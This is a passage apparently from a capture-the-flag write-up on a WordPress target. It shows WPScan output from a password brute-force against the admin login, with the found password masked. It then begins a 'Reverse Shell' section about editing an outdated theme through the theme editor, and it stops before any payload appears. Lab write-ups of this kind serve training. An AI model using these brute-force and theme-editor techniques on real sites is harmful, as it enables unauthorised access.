 ```shell
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:05 <===========================> (137 / 137) 100.00% Time: 00:00:05

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / *******                   
Trying admin / kambal Time: 00:01:19 <                           > (3900 / 14348292)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: ****** 


```

> So Now We Loging in WordPress :

![Login - WordPress Picture](./Iternal-Images/login-wordprs.png)

## Reverse Shell

- We got in, what’s next? We already know that a specific theme is outdated, let’s visit that using theme editor. Go to appearance and click “ theme editor ”.
